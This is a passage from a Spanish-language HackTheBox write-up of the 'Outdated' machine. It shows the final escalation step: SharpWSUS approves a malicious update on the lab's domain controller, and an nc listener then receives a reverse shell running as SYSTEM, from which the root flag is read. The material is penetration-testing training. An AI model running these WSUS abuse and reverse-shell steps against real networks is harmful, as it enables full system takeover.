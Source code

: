 Aprobamos la actualización:

```powershell
.\SharpWSUS.exe approve /updateid:<UPDATE_ID> /computername:dc.outdated.htb /groupname:"Marmeus group" 
```

Recibimos la shell como SYSTEM:

```bash
kali@kali:~/Documents/HTB/Outdated$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.144] from (UNKNOWN) [10.10.11.175] 65231
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
[CENSORED]
```

¡Hemos obtenido acceso como SYSTEM!

## Notas

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla. Por eso he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.